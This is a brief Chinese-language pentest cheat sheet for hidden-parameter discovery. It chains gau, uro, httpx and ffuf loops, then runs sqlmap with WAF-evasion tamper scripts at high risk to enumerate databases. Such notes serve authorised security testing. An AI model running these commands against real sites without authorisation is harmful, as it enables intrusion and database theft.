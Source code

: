 # 隐藏参数
arjun，param miner，ffuf
参数列表https://github.com/Bo0oM/ParamPamPam/blob/master/params.txt

## gau+fuzz
使用 gau 从子域获取 url
```
cat subdomains.txt | gau --blacklist png,jpg,gif,jpeg,swf,woff,svg,pdf,tiff,tif,bmp,webp,ico,mp4,mov,js,css,eps,raw | tee all_urls.txt
```

清理 url 并检查 http 状态码 200
cat all_urls.txt | uro | httpx -mc 200 -silent | tee live_urls.txt

Grep 所有 php 端点
```
cat live_urls.txt | grep ".php" | cut -f1 -d"?" | sed 's:/*$::' | sort -u > php_endpoints_urls.txt
使用 ffuf 模糊可能的隐藏参数
```

GET 
```
for URL in $(<php_endpoints_urls.txt); do (ffuf -u "${URL}?FUZZ=1" -w params_list.txt -mc 200 -ac -sa -t 20 -or -od ffuf_hidden_params_sqli_injections); done
```

POST 
```
for URL in $(<php_endpoints_urls.txt); do (ffuf -X POST -u "${URL}" -w params_list.txt -mc 200 -ac -sa -t 20 -or -od ffuf_hidden_params_sqli_injections -d "FUZZ=1"); done
```

如果您发现了一个隐藏的有效参数，它可能容易受到 sql 注入的攻击，因此下一步将是检查它们使用 SQLMAP 返回状态代码 200 的那些 urls-params，如下所示（GET 示例）-
```
sqlmap -u "URL" --random-agent --tamper="between,randomcase,space2comment" -v 2 --dbs --level 5 --risk 3 --batch --smart
```
